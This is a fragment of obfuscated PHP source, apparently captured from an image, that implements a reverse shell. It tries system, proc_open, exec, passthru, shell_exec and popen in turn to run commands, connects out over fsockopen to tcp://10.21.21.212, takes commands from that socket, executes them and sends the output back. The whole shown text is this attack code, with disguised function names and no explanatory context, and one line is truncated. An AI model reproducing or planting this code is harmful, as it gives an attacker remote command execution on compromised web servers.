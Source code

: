 ```php
  
  if($JxlwS('system')&&!$YsBb('system',$dis)){
    ob_start();
    system($c);
    $o=ob_get_contents();
    ob_end_clean();
  }else
  if($JxlwS('proc_open')&&!$YsBb('proc_open',$dis)){
    $handle=proc_open($c,array(array('pipe','r'),array('pipe','w'),arr
    $o=NULL;
    while(!feof($pipes[1])){
      $o.=fread($pipes[1],1024);
    }
    @proc_close($handle);
  }else
  if($JxlwS('exec')&&!$YsBb('exec',$dis)){
    $o=array();
    exec($c,$o);
    $o=join(chr(10),$o).chr(10);
  }else
  if($JxlwS('passthru')&&!$YsBb('passthru',$dis)){
    ob_start();
    passthru($c);
    $o=ob_get_contents();
    ob_end_clean();
  }else
  if($JxlwS('shell_exec')&&!$YsBb('shell_exec',$dis)){
    $o=`$c`;
  }else
  if($JxlwS('popen')&&!$YsBb('popen',$dis)){
    $fp=popen($c,'r');
    $o=NULL;
    if(is_resource($fp)){
      while(!feof($fp)){
        $o.=fread($fp,1024);
      }
    }
    @pclose($fp);
  }else
  {
    $o=0;
  }

    return $o;
  }
}
$nofuncs='no exec functions';
if(is_callable('fsockopen')and!in_array('fsockopen',$dis)){
  $s=@fsockopen("tcp://10.21.21.212",$port);
  while($c=fread($s,2048)){
    $out = '';
    if(substr($c,0,3) == 'cd '){
      chdir(substr($c,3,-1));
    } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
      break;
    }else{
      $out=CkWFVVEpPfTarR(substr($c,0,-1));
      if($out===false){
        fwrite($s,$nofuncs);
        break;
      }
    }
    fwrite($s,$out);
```